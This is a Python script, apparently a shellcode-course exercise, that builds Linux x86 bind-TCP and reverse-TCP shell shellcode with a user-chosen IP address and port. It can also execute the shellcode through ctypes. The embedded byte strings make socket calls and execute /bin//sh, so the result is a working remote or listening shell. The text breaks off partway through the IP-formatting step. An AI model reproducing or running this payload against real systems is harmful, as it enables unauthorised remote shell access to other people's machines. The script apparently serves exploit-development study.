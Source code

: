 ```python
#!/usr/bin/python3

# Demey Alexandre
# 2020-05-01
# PA-14186

from ctypes import CDLL, CFUNCTYPE, c_char_p, cast
from sys import argv
import argparse
from ipaddress import ip_address, AddressValueError

#Default port
port = 1337
#Default ip address
ip = "127.0.0.1"


# Setting the arguments
parser = argparse.ArgumentParser()
parser.add_argument("-e", "--exec",
                    help="If set, the shellcode is printed to the screen then executed",
                    action="store_true")
parser.add_argument("-i", "--ip",
                    help="Change the ip address (Default:127.0.0.1) --ignored if bind type--")
parser.add_argument("-p", "--port", type=int,
                    help="Change the port (Default:1337)")
parser.add_argument("type", choices=["bind_tcp","reverse_tcp"],
                    help="Type of the shellcode")
args = parser.parse_args()

# Available shellcodes
shellcodes = { 
              'bind_tcp': "\\x31\\xdb\\xf7\\xe3\\x53\\x43\\x53\\x6a\\x02\\x89\\xe1\\x04\\x66\\xcd\\x80"\
                          "\\x97\\x5b\\x52\\x66\\x68{}\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89"\
                          "\\xe1\\x6a\\x66\\x58\\xcd\\x80\\x52\\x57\\x89\\xe1\\xd1\\xe3\\xb0\\x66\\xcd"\
                          "\\x80\\x52\\x52\\x57\\x89\\xe1\\x43\\xb0\\x66\\xcd\\x80\\x93\\x6a\\x03\\x59"\
                          "\\x49\\xb0\\x3f\\xcd\\x80\\x75\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f"\
                          "\\x62\\x69\\x6e\\x89\\xe3\\xb0\\x0b\\xcd\\x80",

              'reverse_tcp': "\\x31\\xdb\\xf7\\xe3\\x53\\x43\\x53\\x6a\\x02\\x89\\xe1\\x04\\x66\\xcd"\
                             "\\x80\\x97\\x5b\\x68{}\\x66\\x68{}\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51"\
                             "\\x57\\x89\\xe1\\x43\\x6a\\x66\\x58\\xcd\\x80\\x87\\xcb\\x87\\xdf\\x49"\
                             "\\xb0\\x3f\\xcd\\x80\\x75\\xf9\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f"\
                             "\\x62\\x69\\x6e\\x89\\xe3\\xb0\\x0b\\xcd\\x80"}

# Change ip address if the ip argument is set
if args.ip:
    ip = args.ip

#Format the ip address
try:
    ip = "{0:0{1}x}".format(int(ip_address(ip)), 8)
    ip = "\\x" + ip[:2] + "\\x" + ip[2:4] + "\\x" + ip[4:6] + "\\x" + ip[6:] 
    print(ip)
```